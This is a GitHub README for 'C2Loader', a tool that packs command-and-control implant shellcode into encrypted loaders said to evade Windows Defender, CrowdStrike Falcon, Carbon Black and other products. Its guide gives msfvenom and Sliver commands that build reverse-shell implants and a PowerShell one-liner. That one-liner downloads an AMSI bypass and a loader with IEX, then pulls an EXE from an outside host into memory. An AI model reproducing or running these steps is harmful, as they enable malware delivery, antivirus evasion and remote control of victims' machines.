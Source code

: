 # C2Loader

## This is used to generate a AV bypassed C2 loader from shellcode.

up to test day, most common AVs can be bypassed: Windows defender, ATP, CS Falcon, Carbon Black, Red Canary, Cylance and McAfee.

### Install MONO when using Linux
```
sudo apt install apt-transport-https dirmngr gnupg ca-certificates
sudo apt-key adv --keyserver hkp://keyserver.ubuntu.com:80 --recv-keys 3FA7E0328081BFF6A14DA29AA6A19B38D3D831EF
echo "deb https://download.mono-project.com/repo/debian stable-buster main" | sudo tee /etc/apt/sources.list.d/mono-official-stable.list
sudo apt update
sudo apt-get install mono-complete
```

### Currently supporting the following C2 plateform (It is now should be able to support any C2 if shellcode is provided):

* Meterpreter
* Covenent
* Sliver
* Cobalt Strike


### Feature

* Process Hollowing
* Behaviour detection bypass
* Random AES encryption
* Rewrite to use D/Invoke direct syscalls
* Add a new haloloader_template to use [SharpHalos](https://github.com/GetRektBoy724/SharpHalos), HaloGates direct syscalls methods to load shellcode

### Guide

1. Generate shellcode for supported C2 implant in raw format:
For Sliver:
```
### To Generate a Sliver implant shellcode without obfuscation:
# [server] sliver > generate -N sliver --mtls 10.0.0.145 -b 10.0.0.145 --skip-symbols -f shellcode --save /root/Codes/c2loader/input/
# [*] Generating new windows/amd64 implant binary
# [!] Symbol obfuscation is disabled
# [*] Build completed in 00:01:25
# [*] Implant saved to /root/Codes/c2loader/input/sliver.bin
#
### Move the sliver.bin to folder input if required, then run the autogen script.
```

For Meterpreter:
```
### To Generate a Meterpreter implant shellcode without obfuscation:
# for x64
# msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.0.0.145 LPORT=8443 -f raw -o input/meterpreter.bin
# for x86
# msfvenom -p windows/meterpreter/reverse_https LHOST=10.0.0.145 LPORT=8443 -f raw -o input/meterpreter.bin
### Move the meterpreter.bin to folder input if required, then run the autogen script.
```

For CobaltStrike:
```
### To Generate a CS implant shellcode without obfuscation:
# Attacks -> Packages -> Payload Generator
# Choose Raw in Output area.
### Move the cobaltstrike.bin to folder input and rename to cobaltstrike.bin, then run the autogen script.
```

2. Move the generated shellcode bin file to `input` folder

3. Modify the autogen script
For halogates loader, fill in the below three parameters in the universal autogen bash script file `autogen_halo.sh`:
```
...truncated...
arch="x64"
c2type="sliver"
rawscfilename='sliver.bin'
...truncated...
```

4. Run the autogen script, wait for couple of minutes and check the generated encrypted EXE in the output folder.

5. Since the gneerated EXE are Sharp Assembly, so it can be chained with the tool `[PowerSharpLoader](https://github.com/F4l13n5n0w/PowerSharpLoader)` to load remotely into memory without touch disk, as shown in the following example:
```
IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/F4l13n5n0w/PowerSharpLoader/master/amsi3.txt"));IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/F4l13n5n0w/PowerSharpLoader/master/Invoke-LoadAssembly.ps1"));Invoke-LoadAssembly -AssemblyUrl https://not.o0.rs/halosli64x2.exe -Command ""
```

### To Do

* Add bananameowloader for even better AV bypass
* Add InlineExecute-Assembly BoF support for Sliver

